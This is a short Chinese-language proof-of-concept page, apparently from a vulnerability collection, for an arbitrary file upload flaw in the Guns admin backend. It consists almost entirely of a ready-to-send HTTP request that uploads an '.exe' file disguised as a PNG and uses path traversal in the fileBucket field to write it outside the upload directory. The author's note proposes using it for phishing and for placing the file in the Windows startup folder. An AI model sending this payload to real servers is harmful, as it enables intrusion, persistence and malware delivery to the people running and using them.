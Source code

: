 # Guns后台任意文件上传漏洞

Guns后台任意文件上传漏洞

## poc

```javascript
POST /api/sysFileInfo/upload HTTP/1.1
Host: 192.168.91.130:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.91.1:9000/system/structure/user
Authorization: eyJhbGciOiJIUzUxMiJ9.eyJ1c2VySWQiOjEzMzk1NTA0Njc5Mzk2MzkyOTksImFjY291bnQiOiJhZG1pbiIsInV1aWQiOiI1NmQzZjczNy1hNjU1LTRjYzgtODRkNi0xNDdjYTE1M2Y5OGIiLCJyZW1lbWJlck1lIjpmYWxzZSwiZXhwaXJhdGlvbkRhdGUiOjE3MzUxMDM0MDM0ODgsImNhVG9rZW4iOm51bGwsIm90aGVycyI6bnVsbCwic3ViIjoiMTMzOTU1MDQ2NzkzOTYzOTI5OSIsImlhdCI6MTczNDQ5ODYwMywiZXhwIjoxNzM1MTAzNDAzfQ.Ur3bUwltSXWUtIT1OOR4MV4frJeRy_MDEkmYg99F5L2DOx6C4ha_y476dTWMy7gAJZsq5x_2C_VEkWxWv7uHXw
Content-Type: multipart/form-data; boundary=---------------------------4047569836919132683218702
Content-Length: 510
Origin: http://192.168.91.130:9000
Connection: close

-----------------------------4047569836919132683218702
Content-Disposition: form-data; name="file"; filename=".exe"
Content-Type: image/png

1111
-----------------------------4047569836919132683218702
Content-Disposition: form-data; name="secretFlag"

N
-----------------------------4047569836919132683218702
Content-Disposition: form-data; name="fileBucket"

../../../../../../../../../../../../../../../../../../看到请点击exe备份
-----------------------------4047569836919132683218702--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412300945840.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412300946118.png)

可以用在钓鱼，如果项目在c盘，可以放到启动项中，
这里可以看到是在哪个盘

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412300946901.png)

## 漏洞来源

- https://xz.aliyun.com/t/16808?time__1311=Gui%3DGIfDODkD%2FD0lD2DUxQw860LQcrpD#toc-0